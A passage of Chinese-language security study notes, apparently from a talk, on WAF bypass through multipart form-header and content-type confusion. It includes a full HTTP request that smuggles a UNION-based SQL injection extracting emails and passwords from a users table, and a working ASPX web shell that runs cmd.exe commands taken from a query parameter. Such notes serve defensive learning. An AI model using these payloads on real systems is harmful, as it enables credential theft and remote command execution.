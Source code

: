 ```HTTP
DEVCORE 
--x--
```
> `&action=search&query=DEVCORE`
> WAF 會誤以爲是正常form header\
> 但**後端會認為是 query string**

17. 驗證後段認為是 query string: 伺服器回應500
![image](https://hackmd.io/_uploads/BJTTwDhEJe.png)

18. 後段驗證成功，塞入 sqli payload: 200 OK，成功注入
```HTTP
POST /action HTTP/1.1 
Host: devco.re 
Content-Type: application/x-www-form-urlencoded; multipart/form-data; boundary=x 
Content-Length: (auto) 

--x 
Content-Disposition: form-data; name="action" 

search 
--x 
Content-Disposition: form-data; name="query"; 'or
Content-Type: image/jpeg&action=search&query=DEVCORE' union select null, null, email, passwd from users --

DEVCORE 
--x--
```
![image](https://hackmd.io/_uploads/HyvC2D34yl.png)

### 繞過案例 (三): Form Header Confusion & Content-Type Confusion - File upload
已知上傳路徑不可執行 aspx，任意檔案上傳 (web.config、ASPX Web Shell)
>[!Note]
> 針對 IIS Server:\
> (1) `web.config` 是 IIS 伺服器上的設定檔案，使用 XML 格式來設定應用程式的行為。\
> (2) `ASPX Web Shell` ASPX 是 IIS 伺服器支援的動態網頁格式，由 ASP.NET 解析並執行。ASPX Web Shell 在伺服器上執行命令、控制主機。\
> 常見 Web Shell：
> ```
> <%@ Page Language="C#" Debug="true" %>
><% 
>System.Diagnostics.ProcessStartInfo psi = new >System.Diagnostics.ProcessStartInfo();
>psi.FileName = "cmd.exe";
>psi.Arguments = "/c " + Request.QueryString["cmd"];
>psi.UseShellExecute = false;
>psi.RedirectStandardOutput = true;
>System.Diagnostics.Process proc = >System.Diagnostics.Process.Start(psi);
>string output = proc.StandardOutput.ReadToEnd();
>Response.Write("<pre>" + output + "</pre>");
>%>
> ```
